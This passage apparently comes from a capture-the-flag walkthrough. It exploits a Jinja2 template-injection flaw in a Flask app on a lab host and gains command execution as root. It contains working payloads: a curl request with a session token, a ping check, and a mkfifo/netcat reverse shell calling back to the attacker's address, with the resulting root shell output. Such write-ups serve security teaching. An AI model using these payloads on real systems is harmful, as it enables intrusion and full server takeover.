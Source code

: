 

### Code Execution

Now I'll use the code execution payload. First, I'll see if I can get a
simple `id` to run:



    root@kali# curl -X POST http://10.10.10.96:8080/ -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpemFyZC5veiIsImV4cCI6MTU0NjY1MTA1Mn0.YuW5qoU_-327dbMSnydFQ6q5wyFPw3PFlDHDOjuu2Mk" --data "name=name&desc={{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} {{ config.from_pyfile('/tmp/evilconfig.cfg') }} {{ config['RUNCMD']('id',shell=True) }}"
    Name: name desc: None True uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)



Next, I'll just ping myself:



    name=GBR-4045&desc={{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} {{ config.from_pyfile('/tmp/evilconfig.cfg') }} {{ config['RUNCMD']('ping -c 1 10.10.14.15',shell=True) }}





    root@kali# tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    20:32:26.216742 IP 10.10.10.96 > kali: ICMP echo request, id 40448, seq 0, length 64
    20:32:26.216765 IP kali > 10.10.10.96: ICMP echo reply, id 40448, seq 0, length 64



Now I'll go for the full shell:



    name=GBR-4045&desc={{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} {{ config.from_pyfile('/tmp/evilconfig.cfg') }} {{ config['RUNCMD']('rm /tmp/d; mkfifo /tmp/d; cat /tmp/d | /bin/sh -i 2>%261 | nc 10.10.14.15 443 > /tmp/d',shell=True) }}





    root@kali# nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.15] from (UNKNOWN) [10.10.10.96] 46860
    /bin/sh: can't access tty; job control turned off
    /app # id
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
    /app # hostname
    tix-app


